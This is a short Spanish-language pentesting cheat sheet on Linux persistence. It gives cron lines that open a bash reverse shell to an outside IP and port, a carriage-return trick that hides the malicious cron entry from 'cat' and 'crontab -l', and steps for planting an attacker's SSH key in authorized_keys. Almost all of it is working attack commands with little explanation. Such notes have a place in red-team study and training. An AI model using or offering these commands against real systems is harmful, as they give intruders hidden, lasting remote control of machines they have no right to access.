 # Persistencia

## Via cronjobs

Con `crontab -e`  podemos editar las entradas cron para generarnos una reverse shell:

```bash
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port>0>&1'
```

O añadirlo directamente al archivo cron

```bash
echo -e "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port>0>&1'" >> /var/spool/cron/crontabs/<user>
```

Se puede sobreescribir con un carriage return el output del fichero cron para ocultarlo al hacerle un `cat` o un `crontab -l`:



{% code overflow="wrap" lineNumbers="true" %}
```bash
echo -e "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/191.168.2.102/445 >&1'#\r                                                                    <blank-spaces>    "  >> /var/spool/cron/crontabs/<user>

#### Con nano 
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/191.168.2.102/445 >&1 #alt-v+Ctrl-m# anything can go here this overwrites the cron entry you could just put lots of spaces here or a dummy cron entry

#### Con vim
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/191.168.2.102/445 >&1 #Ctrl-v+Ctrl-m# anything can go here this overwrites the cron entry you could just put lots of spaces here or a dummy cron entry
```
{% endcode %}



## SSH keys

En la máquina atacante ejecutamos lo siguiente:

```bash
## Creamos las claves públicas y privadas para ssh
ssh-keygen

## Y las pegamos en la carpeta ssh del usuario al que nos querramos autenticar 
mkdir ~/.ssh
touch ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE5ThfNkpxcuckshT4Z0Ht84SZoHsfy7zEgHdbJrmJOv kali@kali" >> ~/.ssh/authorized_keys
```



